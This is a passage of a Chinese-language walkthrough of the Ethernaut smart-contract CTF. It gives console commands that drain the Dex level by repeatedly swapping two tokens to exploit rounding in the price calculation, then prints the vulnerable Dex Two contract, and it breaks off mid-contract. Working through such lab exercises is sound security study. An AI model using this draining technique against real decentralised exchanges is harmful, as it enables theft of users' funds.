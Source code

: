 控制台操作

```js
await contract.approve(instance, 1000)
//先approve增加allowances，后面transferFrom要用
const token1 = await contract.token1()
const token2 = await contract.token2()
//获取两个token地址
await contract.swap(token1, token2, 10)
await contract.swap(token2, token1, 20)
await contract.swap(token1, token2, 24)
await contract.swap(token2, token1, 30)
await contract.swap(token1, token2, 41)
await contract.swap(token2, token1, 45)
//来回兑换，直到换空一个
```

然而`await contract.approve(instance, 1000)` 这步有问题，MetaMask会卡住一直转圈圈

github上找到issue: [Level 22 Dex - Sentry 429 (Too Many Requests) in MetaMask · Issue #365 · OpenZeppelin/ethernaut](https://github.com/OpenZeppelin/ethernaut/issues/365)

解决方法是把`contract SwappableToken`在Remix ide编译

用`At Address`分别部署在两个token的位置，然后分别调用`approve()`

## Dex Two

清空题目账户的两种token

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract DexTwo is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
```